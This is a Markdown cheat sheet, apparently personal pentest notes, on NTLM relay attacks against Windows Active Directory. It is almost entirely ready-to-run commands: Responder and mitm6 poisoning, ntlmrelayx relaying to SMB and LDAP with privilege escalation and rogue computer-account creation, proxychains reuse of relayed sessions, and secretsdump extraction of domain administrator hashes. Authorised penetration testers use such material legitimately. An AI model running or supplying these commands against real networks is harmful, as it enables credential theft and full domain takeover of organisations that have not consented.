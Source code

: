 # How To NTLMRelay

## Notes
 - Configure /etc/proxychains.conf to not proxy DNS and use local port 1080:
   `#proxy_dns`
   `socks4 127.0.0.1 1080`   
 - Start ntlmrelayx with options socks:   
   `ntlmrelayx.py -tf targets.txt -smb2support -socks`  
 - Targets (systems without SMB signing) can be gathered with:   
   `crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt`
   `nxc smb 10.10.10.0/24 --gen-relay-list relaytargets.txt`
 - Try to escalate a given user:   
   `ntlmrelayx.py -t ldap://dc.domain.local --escalate-user USER --remove-mic -smb2support`   
 - Run secretsdump on domain administrator:   
   `secretsdump.py winlab.csnc.ch/hostname$@dc.winlab.csnc.ch -just-dc -just-dc-user Administrator`   
   
 Note: For the poisoning of broadcast messages, run Responder at the same time, but with SMB and HTTP server disabled for Responder. This is not required if you do targeted relaying where you trigger the victims connection to your ntlmrelayx host.   
 - Start Responder.py with SMB and HTTP disabled: (disable them in Responder.conf)   
   `sudo /opt/Responder/Responder.py -I eth1 -w -r -f -d`   

## Using the socks connection
 - Once there is an authenticated socks connection (check with command "socks" in ntlmrelayx console), it can be used with proxychains:   
   `proxychains smbexec.py 'DOMAIN/user:gugus@<target-ip>'`   
   `proxychains secretsdump.py random@100.2.2.2`   
   
- If you relay a machine account:   
   `proxychains smbexec.py 'DOMAIN/MACHINE$:gugus@<target-ip>'`   

## IPv6 DHCP poisoning
- Start rogue DHCPv6, where you specify the domain of your target:   
  `mitm6 -d domain.local`   
- Start ntlmrelayx to e.g. target LDAP on the DC (for querying AD information):   
  `sudo ntlmrelayx.py -6 -t ldap://dc01 --no-smb-server -wh attacker-wpad -h`   
## Fake machine account creation
- Start ntlmrelayx targeting a DC to add a computer:   
  `sudo ntlmrelayx.py -6 -t ldap://dc01 --add-computer --no-smb-server -wh attacker-wpad -h`   
- Run Responder with DHCP server:   
  `./Responder.py -I eth0 -Pdv`   
- After the new computer was created, you can use this to e.g. query SPNs in the domain:   
  `GetUserSPNs.py 'domain.local/NEWCOMPUTER$' -dc-ip 10.10.0.1`  
Note: Remember to cleanup the computer afterwards! (requires DA)	  

## Open Socks connection with authenticated domain user
- turn off smb and http in Responder.conf and run Responder:   
  `./Responder.py -I eth0`   
- generate relay targets:   
  `crackmapexec smb 192.168.1.0/24 --gen-relay-list relay.txt`   
- Run ntlmrelayx with socks option:   
  `ntlmrelayx.py -tf ./relay.txt -smb2support -socks`   
- set socks proxy in /etc/proxychains4.conf and use proxychains to e.g. lookup sids using the socks connection:   
  `proxychains lookupsid.py DOMAIN/USER@10.10.0.22 -no-pass -domain-sids`   
